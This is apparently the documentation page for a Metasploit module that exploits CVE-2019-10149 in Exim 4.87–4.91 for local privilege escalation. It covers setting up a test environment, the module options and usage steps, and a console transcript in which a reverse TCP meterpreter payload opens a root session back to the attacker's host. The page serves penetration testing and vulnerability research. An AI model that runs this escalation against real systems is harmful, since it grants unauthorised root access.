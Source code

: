## Vulnerable Application

Exim 4.87 - 4.91 Local Privilege Escalation

This module exploits a flaw found in Exim versions 4.87 to 4.91 (inclusive). Improper validation of recipient address in deliver_message() function in /src/deliver.c may lead to command execution with root privileges (CVE-2019-10149). 

Both meterpreter shell and classic shell are supported. The exploit will upload the specified `payload`, set the suid bit, and execute it to create a new root session. In order for the new session to be a root one, both `PrependSetuid` and `PrependSetgid` must be set to true (which is the default configuration for the exploit), and the `WritableDir` must be mounted without `nosuid`.

# Creating A Testing Environment

You basically just need to have a exim (between 4.87 and 4.91 inclusive) running and listening on a port (port 25 by default).
For my tests, I used a VM with Ubuntu 18.04 LTS and exim 4.89 (I tested all the versions from 4.87 to 4.91). The exim source code can be downloaded from the official website (all the old versions can be found).
You can also use this good Docker image which sets up a container with a vulnerable exim version running (https://github.com/dhn/exploits/tree/master/CVE-2019-10149).
Be careful if you use the exim package from the official repo of your Linux distribution, even if the version is between 4.87 and 4.91, it may still be patched against the vulnerability (it is the case on Ubuntu at least).

Before using the exploit, make sure exim is actually listening on a port (it may sound stupid, but I struggled a bit when creating a testing environment). However, you should not have any problem if you use the Docker image linked above.

# Verification Steps

1. `use exploit/linux/local/exim4_deliver_message_priv_esc`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
4. `set LHOST [lhost]`
5. `set LPORT [lport]`
6. `exploit`

## Options

## PAYLOAD

Set this option to choose which type of root session you want to create.

## EXIMPORT

The port that exim is listening to. On most cases it will be port 25 (which is the default).

## ForceExploit

Force exploit even if the current session is root.
    
## SendExpectTimeout

Timeout per send/expect when communicating with exim.

## WritableDir

A directory where we can write files (default is /tmp).


## Scenarios

## Privilege escalation starting with a meterpreter shell

```
meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > 
Background session 1? [y/N]  
msf5 exploit(multi/handler) > use exploit/linux/local/exim4_deliver_message_priv_esc 
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set session 1
session => 1
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lhost 192.168.0.50
lhost => 192.168.0.50
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lport 13371
lport => 13371
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set EXIMPATH /usr/exim/bin/exim
EXIMPATH => /usr/exim/bin/exim
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > check
[*] The target appears to be vulnerable.
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > exploit

[*] Started reverse TCP handler on 192.168.0.50:13371 
[*] Payload sent, wait a few seconds...
[*] Sending stage (985320 bytes) to 192.168.0.80
[*] Meterpreter session 2 opened (192.168.0.50:13371 -> 192.168.0.80:45562) at 2019-07-07 23:46:37 +0100
[+] Deleted /tmp/eMhzFtUYGQ
[+] Check session 2, you should have a root shell!

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.0.80
OS           : Ubuntu 18.04 (Linux 4.18.0-25-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
